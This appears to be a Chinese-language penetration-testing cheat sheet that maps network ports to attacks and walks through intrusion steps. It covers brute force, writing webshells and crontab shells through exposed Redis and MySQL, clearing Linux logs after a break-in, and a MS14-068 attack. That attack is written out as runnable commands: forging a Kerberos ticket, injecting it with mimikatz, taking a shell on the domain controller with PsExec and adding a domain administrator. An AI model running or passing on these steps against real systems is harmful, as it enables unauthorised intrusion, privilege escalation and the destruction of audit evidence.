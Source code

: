 ## 渗透思路

端口对应的服务

21端口，ftp 可爆破或者尝试匿名anonymous/空登录

| 21 ftp               | 可爆破<br/>匿名anonymous/空登录<br/>MS12-073                 |      |
| -------------------- | ------------------------------------------------------------ | ---- |
| 22 ssh               | 爆破                                                         |      |
| 80 web               |                                                              |      |
| 445 smb              | ms08-067 ms17-010溢出漏洞<br/>IPC$攻击                       |      |
| 3306 mysql           | 暴破<br/>成功后用mysql写入webshell，或者构造vbs写入服务器启动项，启动时添加管理员账号打开3389端口 |      |
| 8088 hadoop yarn     | 资源管理器rest api存在未授权访问漏洞，通过curl -v -X POST申请新的application，构造提交任务后即可在相应目录生成webshell |      |
| 8161 apache activeMQ | console存在默认端口和默认密码、未授权访问<br/>当activeMQ开启put请求时构造payload（即不存在的目录）response会返回相应的物理路径信息，当fileserver存在时我们可以上传jspwebshell，<br/>activeMQ还支持move协议，导致任意文件移动漏洞 |      |
| 6379 redis           | 配置不当的未授权 链接redis（./redis-cli -h IP)，可实现写入webshell，写入crontab计划任务fantanshell，以及写入ssh公钥，获取操作系统权限<br/>暴破 |      |
| 11211 memcached      | 默认情况下存在未授权访问，telnet ip就可以获得服务器敏感信息  |      |
|                      |                                                              |      |
|                      |                                                              |      |

## 流程

信息收集

漏洞挖掘

漏洞利用&权限提升

mysql serv-u Oracle

window溢出

linux脏牛、内核漏洞

### 入侵Linux后要清楚的日志

| web      | sed -i -e 定向清楚 |      |
| -------- | ------------------ | ---- |
| history  | ~                  |      |
| wtmp     |                    |      |
| 登录日志 |                    |      |

### 域内横向移动

| MS14-068         | kerkeo    klist klist  purge  删除所有票据<br>直接访问域控制器的C盘目录：dir \\qianxiao996-dm.qianxiao996.com\C$<br>查看本机用户信息,记录用户名与SID号whoami /all<br>进入MS14-068目录，使用以下命令：ip为域控的ip MS14-068.exe -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword><br/>MS14-068.exe -u zhangsanfeng@qianxiao996.com -s S-1-5-21-2461438818-3229013638-4126918765-1108 -d 192.168.91.131 -p ABCabc123`<br/>生成的票据文件<br>打开mimikatz，注入票据<br>`mimikatz # kerberos::purge          //清空当前凭证<br/>mimikatz # kerberos::list           //查看当前机器凭证<br/>mimikatz # kerberos::ptc 票据文件    //将上一步生成的票据注入到内存中`<br><br/>再次列出域控制器的C盘目录：再次列出域控制器的C盘目录：dir \\qianxiao996-dm.qianxiao996.com\C$<br>使用PSTools目录下的PsExec.exe获取shell:PsExec.exe \\qianxiao996-dm.qianxiao996.com cmd.exe<br>添加域管理员net user wangergou ABCabc123 /add /domain<br/>net group "Domain admins" wangergou /add /domain |      |
| ---------------- | ------------------------------------------------------------ | ---- |
| 0x02.GPP漏洞     | 组策略下发<br>管理工具中打开组策略管理：选择域，并新建组织单位：选择新建的组织单位，并建立GPO：点击新建的GPO：设定组策略作用范围：（选择一个组，必须是存在的组）右键选择GPO，选择编辑–本地用户和组：新建一个用户：域成员上更新组策略，并查看用户:gpupdate net user |      |
| 0x03.SPN票据破解 | 列出当前用户的票据：Kerberos::list <br>导出票据：Kerberos::list /export |      |
|                  |                                                              |      |

